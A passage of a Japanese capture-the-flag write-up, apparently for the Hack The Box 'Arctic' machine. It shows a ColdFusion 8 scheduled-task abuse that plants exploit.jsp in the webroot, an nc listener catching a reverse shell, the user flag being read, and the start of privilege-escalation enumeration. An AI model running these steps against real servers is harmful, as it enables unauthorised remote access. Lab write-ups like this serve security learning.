 ### exploit.jspを作成したディレクトリでHTTPサーバをサーブします。
```shell
$ sudo python -m SimpleHTTPServer 80                                       
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 ...
```

### ncで待ち受けます。
```shell
$ nc -lnvp 4444
listening on [any] 4444 ...
```

### リバースシェルを配置するパスを確認します。C:\ColdFusion8\wwwroot\CFIDEです。
{{< figure src="/images/Arctic5.png" title="Screenshot" class="center" width="800">}}

### スケジュールタスクの必要事項を記載し、submitします。
{{< figure src="/images/Arctic6.png" title="Screenshot" class="center" width="800">}}

### タスクをスタートさせます。Actionsの一番左のボタンを押します。
{{< figure src="/images/Arctic7.png" title="Screenshot" class="center" width="800">}}

### 10.129.105.102:8500/CFIDE/exploit.jspnにブラウザでアクセスします。すると、リバースシェルがはれます。
```shell
$ nc -lnvp 4444
listening on [any] 4444 ...


connect to [10.10.14.40] from (UNKNOWN) [10.129.105.102] 49870
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

### user.txtを取ります。（フラグは省略しています）
```shell
C:\Users\tolis\Desktop>more user.txt
more user.txt
4a50a3809e2bd7b1d23b5bf951e4c70f
```

## 権限昇格（諸事情によりIPアドレスが変更になっています）
### windows-exploit-sugesterを使用するために、systeminfoコマンドを実行します。
```shell
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          15/5/2022, 9:37:04 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
```